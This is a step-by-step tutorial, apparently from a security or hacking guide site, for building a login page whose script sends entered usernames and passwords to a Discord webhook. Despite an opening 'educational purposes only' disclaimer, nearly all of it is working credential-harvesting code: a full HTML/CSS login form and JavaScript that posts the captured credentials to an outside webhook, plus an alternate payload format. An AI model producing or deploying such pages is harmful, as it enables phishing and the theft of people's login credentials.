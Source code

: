 # Create a Login Page Webhook

This tutorial demonstrates how to create a login page that sends entered credentials to a webhook. Created by @bst04.

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
**Disclaimer:** This guide is intended for educational purposes only. Unauthorized collection of user credentials is illegal and unethical. Use this knowledge responsibly and ethically.
{% endhint %}



***

### 📌 Basic Information

1. **Webhooks**
   * A webhook is an HTTP callback that allows one application to send real-time data to another.
   * Common platforms like Discord, Slack, or custom APIs can receive webhook data.
2. **Tools Used**
   * **HTML:** To structure the login form.
   * **CSS:** To style the login page.
   * **JavaScript:** To handle form submission and send data to the webhook.
3. **Platforms**
   * For simplicity, we'll use **Discord** as an example to receive the webhook data.

***

### 📋 Requirements

Before proceeding, ensure you have the following:

* Basic knowledge of HTML, CSS, and JavaScript.
* A webhook URL (e.g., from Discord, Slack, or any custom API).
* A text editor (e.g., VS Code, Sublime Text).

***

### 🚀 Step-by-Step Process

#### **Step 1: Set Up Your Webhook**

1.  Choose a platform to receive the data. For this example, we'll use **Discord**:

    * Go to [Discord](https://discord.com/).
    * Create a server if you don't already have one.
    * Right-click on a channel → **Integrations** → **Webhooks** → **Create Webhook**.
    * Copy the webhook URL provided by Discord.

    Example Webhook URL:

    ```
    https://discord.com/api/webhooks/1234567890abcdefg/your_webhook_key_here
    ```

***

#### **Step 2: Create the Login Page (HTML + CSS)**

1.  Create an `index.html` file with the following code:

    ```html
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Login Page</title>
        <style>
            body {
                font-family: Arial, sans-serif;
                background-color: #f2f2f2;
                display: flex;
                justify-content: center;
                align-items: center;
                height: 100vh;
                margin: 0;
            }
            .login-container {
                background-color: white;
                padding: 20px;
                border-radius: 8px;
                box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
                width: 300px;
            }
            .login-container h2 {
                margin-bottom: 20px;
                text-align: center;
            }
            .login-container input {
                width: 100%;
                padding: 10px;
                margin: 10px 0;
                border: 1px solid #ccc;
                border-radius: 4px;
            }
            .login-container button {
                width: 100%;
                padding: 10px;
                background-color: #4CAF50;
                color: white;
                border: none;
                border-radius: 4px;
                cursor: pointer;
            }
            .login-container button:hover {
                background-color: #45a049;
            }
        </style>
    </head>
    <body>
        <div class="login-container">
            <h2>Login</h2>
            <form id="loginForm">
                <input type="text" id="username" placeholder="Username" required>
                <input type="password" id="password" placeholder="Password" required>
                <button type="submit">Login</button>
            </form>
        </div>

        <script src="script.js"></script>
    </body>
    </html>
    ```

***

#### **Step 3: Add JavaScript to Send Data to the Webhook**

1.  Create a `script.js` file with the following code:

    ```javascript
    document.getElementById("loginForm").addEventListener("submit", function(event) {
        event.preventDefault(); // Prevent the form from refreshing the page

        // Get the username and password from the form
        const username = document.getElementById("username").value;
        const password = document.getElementById("password").value;

        // Construct the payload to send to the webhook
        const payload = {
            embeds: [{
                title: "Login Attempt",
                fields: [
                    { name: "Username", value: username, inline: true },
                    { name: "Password", value: password, inline: true }
                ],
                color: 0x00ff00 // Green color
            }]
        };

        // Replace with your webhook URL
        const webhookUrl = "https://discord.com/api/webhooks/1234567890abcdefg/your_webhook_key_here";

        // Send the data to the webhook
        fetch(webhookUrl, {
            method: "POST",
            headers: {
                "Content-Type": "application/json"
            },
            body: JSON.stringify(payload)
        })
        .then(response => {
            if (response.ok) {
                alert("Data sent successfully!");
            } else {
                alert("Failed to send data.");
            }
        })
        .catch(error => {
            console.error("Error:", error);
            alert("An error occurred while sending data.");
        });
    });
    ```

***

#### **Step 4: Test the Setup**

1. Save both files (`index.html` and `script.js`) in the same directory.
2. Open `index.html` in your browser.
3. Enter a username and password in the login form and submit it.
4. Check your webhook platform (e.g., Discord) to see if the data was received.

***

#### **Step 5: Customize the Webhook Message**

You can customize the message format sent to the webhook. For example:

**Updated Payload Example:**

```javascript
const payload = {
    content: `Login Attempt:\nUsername: ${username}\nPassword: ${password}`
};
```

This will send a plain-text message instead of an embed.

***

### 🛠 Tips and Best Practices

1. **Use HTTPS:** If hosting this login page online, ensure it is served over HTTPS to protect data in transit.
2. **Inform Users:** Always inform users that their data will be sent to a webhook for demonstration or testing purposes.
3. **Test Locally:** Use local development tools (e.g., `localhost`) to test the functionality before deploying it.
4. **Secure Your Webhook URL:** Keep your webhook URL private to prevent unauthorized access.

***

### Conclusion

By following these steps, you can create a simple login page that sends entered credentials to a webhook. This setup is useful for learning about webhooks, form handling, and API communication. Remember to use this knowledge responsibly and ethically.
